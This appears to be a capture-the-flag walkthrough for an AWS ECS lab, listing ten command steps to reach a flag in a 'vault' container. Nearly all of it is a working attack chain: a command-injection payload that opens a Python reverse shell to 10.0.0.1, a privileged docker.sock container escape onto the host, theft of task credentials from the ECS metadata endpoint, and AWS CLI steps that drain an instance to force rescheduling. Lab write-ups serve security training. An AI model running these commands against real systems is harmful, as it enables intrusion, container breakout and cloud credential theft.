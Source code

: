 1. Exploit the website via command injection.

    ```bash
    ; export RHOST="10.0.0.1";export RPORT=4242;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

2. Use the docker.sock to deploy a new container 

    `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host`

3. List the container on the host

    `docker ps`

4. Get the container credentials from the "privd" container. 

    ```bash
        docker exec -it <container_id> sh 
        wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI `
    ``
5. List the clusters in the account 

    `aws ecs list-clusters --profile privd`

6. List tasks in the cluster

    `aws ecs list-tasks --cluster my-cluster --profile privd`

7. List container instances 

    `aws ecs list-container-instances --cluster my-cluster --profile privd `

8. Set container instance to DRANING 

    `aws ecs update-container-instances-state --cluster my-cluster --container-instances <> --status DRAINING`

9. Wait for "Vault" container to be rescheduled. 

    `docker ps`

10. Get the flag from the "vault" container 

    `docker exec -it <container_id> cat /FLAG.txt`